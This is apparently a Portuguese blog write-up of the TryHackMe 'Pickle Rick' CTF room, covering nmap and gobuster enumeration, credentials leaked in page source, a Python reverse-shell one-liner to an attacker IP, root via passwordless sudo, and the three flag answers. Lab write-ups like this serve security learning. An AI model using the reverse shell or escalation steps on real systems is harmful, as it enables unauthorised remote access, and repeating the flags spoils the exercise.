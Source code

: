 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryHackMe - Pickle Rick - Fácil
date: 2024-01-13 11:47:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, SUID, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![piclericky](/assets/img/pickrick3.jpg){: w="100" h="100" .left}

---
# CTF Pickle Rick - Fácil
---
---
## Enumeração

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sVC 10.10.13.28 -T4

tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 01:22 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 01:22 (0:00:00 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:22 (0:00:06 remaining)
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 01:22 (0:00:00 remaining)
Nmap scan report for 10.10.13.28
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:a9:c6:8e:d9:b8:20:47:8c:f1:e4:48:64:d2:56:85 (RSA)
|   256 e1:42:f1:cb:9f:a7:77:6c:04:06:4a:92:bf:0f:0c:e2 (ECDSA)
|_  256 e8:61:39:6b:3e:38:4d:ec:bd:81:6f:73:4c:c1:31:ca (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds

```
{: .nolineno }



É um website

Encontrado no código fonte da paginal inicial

```text
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
{: .nolineno }
### gobuster

```shell
gobuster dir -u http://10.10.13.28 -t 100  -w  /usr/share/wordlists/dirb/big.txt -r --no-error -e  -x php,txt,old

==============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.13.28/.php                 (Status: 403) [Size: 290]
http://10.10.13.28/.htpasswd.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.old             (Status: 403) [Size: 294]
http://10.10.13.28/.hta                 (Status: 403) [Size: 290]
http://10.10.13.28/.hta.txt             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.php             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess.txt        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.txt        (Status: 403) [Size: 299]
http://10.10.13.28/assets               (Status: 200) [Size: 2190]
http://10.10.13.28/denied.php           (Status: 200) [Size: 882]
http://10.10.13.28/index.html           (Status: 200) [Size: 1062]
http://10.10.13.28/login.php            (Status: 200) [Size: 882]
http://10.10.13.28/portal.php           (Status: 200) [Size: 882]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/server-status        (Status: 403) [Size: 299]
Progress: 18456 / 18460 (99.98%)
```
{: .nolineno }
login page encontrada http://10.10.13.28/login.php


```text
robots.txt

Wubbalubbadubdub
```
{: .nolineno }
index of em /assets contendo apenas algumas imagens e scripts

![indexoff](/assets/img/picklerick1.png)

## Acesso

login efetuado com sucesso 

Login: R1ckRul3s
Senha: Wubbalubbadubdub

http://10.10.13.28/portal.php

WebShell após o login

![webshell](/assets/img/picklerick2.png)

Permitido executar alguns comandos,os outro menus são bloqueados e direcionado para
http://10.10.13.28/denied.php

### Reverse Shell

Listei necat e executei shell reverse  nesta pagina

```python
export RHOST="10.6.125.125";export RPORT=4443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{: .nolineno }

Primeira flag encontrada

```shell
www-data@ip-10-10-165-48:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
{: .nolineno }
## Escalação de Privilégio

```shell
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-165-48.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-165-48.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-165-48:/home/rick$ sudo /bin/bash
sudo /bin/bash
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Segunda Flag

```shell
root@ip-10-10-165-48:/home/rick# cat "second ingredients"
cat "second ingredients"
1 jerry tear
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Terceira Flag

```shell
root@ip-10-10-165-48:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-165-48:~# 
```
{: .nolineno }